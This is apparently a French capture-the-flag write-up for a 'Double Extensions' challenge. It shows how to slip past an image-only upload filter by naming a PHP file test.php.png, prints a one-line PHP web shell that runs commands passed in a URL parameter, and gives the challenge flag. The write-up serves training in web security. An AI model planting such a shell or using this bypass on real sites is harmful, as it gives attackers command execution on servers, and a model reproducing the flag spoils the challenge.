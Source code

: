 ## Challenges

### Serveur Web

### Challenge : Double Extensions

#### Problème

Cette épreuve consiste à uploader un code PHP dans cette galerie de photos.

#### Résolution

Dans cette étape, nous démarrons le défi. Sur la page qui s'affiche, cliquez sur "upload", cela vous redirige vers une page où vous pouvez uploader une image. Une remarque sur la page : **NB : seuls les fichiers GIF, JPEG ou PNG sont acceptés.**

En cliquant sur "choose file", vous pouvez choisir un fichier à uploader. Si vous choisissez un fichier .php, un message s'affiche : **Wrong file type!**

Pour contourner cette restriction, nous allons créer un fichier '.php' que nous nommerons "test.php.png" et que nous uploaderons. En ajoutant '.png' à la fin du nom de fichier, nous faisons en sorte que le filtre appliqué aux fichiers téléchargés pense qu'il s'agit d'une image (voir le challenge File upload_null byte (S1)).

Dans le fichier test.php.png, nous insérons le code suivant :

```php
<?php
system($_GET['command']);
?>
```

Ensuite, nous pouvons le télécharger. Le flag s'affiche sur la page après avoir cliqué sur le bouton "upload".

#### Solution

Le flag est : `Gg9LRz-hWSxqqUKd77-_q-6G8`.